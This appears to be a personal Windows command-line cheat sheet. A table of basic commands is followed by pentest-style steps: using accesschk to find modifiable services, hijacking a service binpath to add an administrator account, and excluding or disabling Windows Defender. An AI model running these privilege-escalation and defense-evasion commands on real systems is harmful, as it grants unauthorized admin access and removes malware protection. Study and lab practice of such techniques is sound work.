 # windows

| Command                      | Description                                            |
| ---------------------------- | ------------------------------------------------------ |
| `cd path\to\folder`          | Change directory                                       |
| `cd ..`                      | Go to the parent folder                                |
| `cd`                         | Show current directory                                 |
| `dir`                        | List folder contents                                   |
| `mkdir NewFolder`            | Create a new folder                                    |
| `echo text > file.txt`       | Create a file                                          |
| `del file.txt`               | Delete a file                                          |
| `rmdir FolderName`           | Remove an empty folder                                 |
| `rmdir /s FolderName`        | Remove folder and its contents                         |
| `copy source.txt dest.txt`   | Copy a file                                            |
| `move source.txt dest.txt`   | Move a file                                            |
| `program.exe`                | Execute a program                                      |
| `findstr "text" file.txt`    | Search for specific text in a file (similar to `grep`) |
| `dir \| findstr ".txt"`      | List `.txt` files in the current folder                |
| `dir \| findstr "report"`    | List files with "report" in the name                   |
| `dir /S \| findstr "report"` | List files with "report" in the name in subfolders     |

Download Sysinternals Suite:

```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/SysinternalsSuite.zip' -OutFile '.\SysinternalsSuite.zip'"
```

Extract:

```cmd
powershell -Command "Expand-Archive -Path '.\SysinternalsSuite.zip' -DestinationPath '.\SysinternalsSuite'"
```

Check user permissions:

```cmd
accesschk.exe -uwvc "normaluser" * 
```

Add user and assign to Administrators group:

```cmd
sc config <service> binpath="cmd /c cmd.exe /c net user <username> <password> /add && net localgroup Administrators <username> /add"
```

Exclude `C:\Temp` folder from Windows Defender:

```cmd
powershell -Command "Add-MpPreference -ExclusionPath 'C:\Temp'"
```

Check if it was successful:

```cmd
powershell -Command "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"
```

Remove `C:\Temp` folder from Windows Defender exclusion list:

```cmd
powershell -Command "Remove-MpPreference -ExclusionPath 'C:\Temp'"
```

Disable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" 
```

Enable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```
